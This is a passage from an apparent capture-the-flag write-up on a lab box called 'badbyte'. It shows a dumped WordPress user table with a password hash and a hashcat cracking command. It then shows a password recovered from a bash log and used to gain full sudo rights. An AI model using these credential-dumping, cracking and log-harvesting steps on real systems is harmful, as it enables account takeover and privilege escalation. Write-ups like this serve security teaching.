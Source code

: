 ```bash
| wp_wpfm_backup         |
+------------------------+
14 rows in set (0.00 sec)

mysql> select * From wp_users;
+----+------------+------------------------------------+---------------+----------------+------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email     | user_url         | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+----------------+------------------+---------------------+---------------------+-------------+--------------+
|  1 | cth        | $P$BobwiFHLgI5vaEbTSeHsr24qjpJBEP0 | cth           | cth@badbyte.bb | http://localhost | 2021-03-23 19:02:50 |                     |           0 | cth          |
+----+------------+------------------------------------+---------------+----------------+------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)
```

This gave me the hash to cth password. I used hashcat to try to break force it. Just like the other brute force, this ran all the time I was working on the box, but did not find the password.

```bash
$ hashcat -a0 -m 400 hash.txt /usr/share/wordlists/rockyou.txt
```

I kept looking around and after a while, I found the file `/var/log/bash.log`.  Looking at it, it looks like the logs of a bash session, with the commands and responses. 

```
^[]0;cth@badbyte: ~^G^[[01;32mcth@badbyte^[[00m:^[[01;34m~^[[00m$ suod su^M
^M
Command 'suod' not found, did you mean:^M
^M
  command 'sudo' from deb sudo^M
  command 'sudo' from deb sudo-ldap^M
^M
Try: sudo apt install <deb name>^M
^M
^[]0;cth@badbyte: ~^G^[[01;32mcth@badbyte^[[00m:^[[01;34m~^[[00m$ THE_USER_PASSWORD ^H^[[K0^M
PART_OF_THE_PASSWORD: command not found^M
^[]0;cth@badbyte: ~^G^[[01;32mcth@badbyte^[[00m:^[[01;34m~^[[00m$ passwd^M
Changing password for cth.^M
(current) UNIX password: ^M
Enter new UNIX password: ^M
Retype new UNIX password: ^M
passwd: password updated successfully^M
```

In it, there is something that looks like a password, so I tried it as the user password. And it worked.

```bash
cth@badbyte:/usr/share/wordpress$ sudo -l
[sudo] password for cth: 
Matching Defaults entries for cth on badbyte:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cth may run the following commands on badbyte:
    (ALL : ALL) ALL
```
